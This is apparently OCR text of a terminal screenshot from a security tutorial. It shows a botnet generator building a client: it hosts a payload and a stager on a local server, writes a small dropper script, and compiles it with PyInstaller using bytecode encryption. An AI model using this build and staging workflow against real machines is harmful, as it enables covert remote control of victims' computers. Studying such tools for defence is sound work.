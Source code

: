 
[>] Modules
         Adding modules… - (3 modules added to client)
 [>] Imports
         Adding imports..- (26 imports from 3 modules)
 [>] Payload                                                                                                                           Uploading payload… - (hosting payload at: https://192.168.1.8:446//payloads/l3p.py)
 [>] Stager
         Uploading stager…  (hosting stager at: https://192.168.1.8:446//stagers/l3p.py)
 [>] Dropper
         Writing dropper…  (203 bytes written to testbot2.py)
         Compiling executable…                                                                                                       13014 INFO: PyInstaller: 3.3.1
 13014 INFO: Python: 2.7.15+
 13015 INFO: Platform: Linux-4.17.0-kali1-686-pae-i686-with-Kali-kali-rolling-kali-rolling
 13130 INFO: UPX is available.
 13210 INFO: Extending PYTHONPATH with paths
 ['/home/iicybersecurity/Downloads/byob',
  '/home/iicybersecurity/Downloads/byob/byob']
 13210 INFO: Will encrypt Python bytecode with key: 34jZd5tQSBJwEuK2
 13210 INFO: Adding dependencies on pyi_crypto.py module
 13211 INFO: checking Analysis
 13211 INFO: Building Analysis because out00-Analysis.toc is non existent
 13211 INFO: Initializing module dependency graph…
 13252 INFO: Initializing module graph hooks…
 13285 INFO: Analyzing hidden import 'base64'
 16343 INFO: Analyzing hidden import 'json'
 16556 INFO: Analyzing hidden import 'zlib'
 16557 INFO: Analyzing hidden import 'urllib'
 17744 INFO: Analyzing hidden import 'uuid'
 17992 INFO: Analyzing hidden import 'numpy'
 34445 INFO: Processing pre-safe import module hook   _xmlplus
 39010 INFO: Processing pre-find module path hook   distutils
 81800 INFO: Processing pre-safe import module hook   six.moves
 95678 INFO: Analyzing hidden import 'colorama'
 96647 INFO: Analyzing hidden import 'requests'
 114809 INFO: Analyzing hidden import 'Crypto.Cipher._AES'
 115242 INFO: running Analysis out00-Analysis.toc
 115311 INFO: Caching module hooks…
 115434 INFO: Analyzing /home/iicybersecurity/Downloads/byob/byob/testbot2.py
 115471 INFO: Loading module hooks…
 115472 INFO: Loading module hook "hook-distutils.py"…
 116244 INFO: Loading module hook "hook-sysconfig.py"…
 116290 INFO: Loading module hook "hook-xml.py"…
 116348 INFO: Loading module hook "hook-httplib.py"…
 116351 INFO: Loading module hook "hook-pydoc.py"…
 116361 INFO: Excluding import 'Tkinter'
 116368 INFO:   Removing import of Tkinter from module pydoc
 116368 INFO: Loading module hook "hook-encodings.py"…
 121171 INFO: Loading module hook "hook-_tkinter.py"…
 122361 INFO: checking Tree
 122361 INFO: Building Tree because out00-Tree.toc is non existent
 122361 INFO: Building Tree out00-Tree.toc
 122453 INFO: checking Tree
 122453 INFO: Building Tree because out01-Tree.toc is non existent
 122453 INFO: Building Tree out01-Tree.toc
 122482 INFO: Loading module hook "hook-xml.dom.domreg.py"…
 122509 INFO: Loading module hook "hook-pkg_resources.py"…
 123352 INFO: Processing pre-safe import module hook   win32com
 123752 INFO: Loading module hook "hook-requests.py"…
 123816 INFO: Loading module hook "hook-certifi.py"…
 124009 INFO: Loading module hook "hook-setuptools.py"…
 124141 INFO: Loading module hook "hook-cryptography.py"…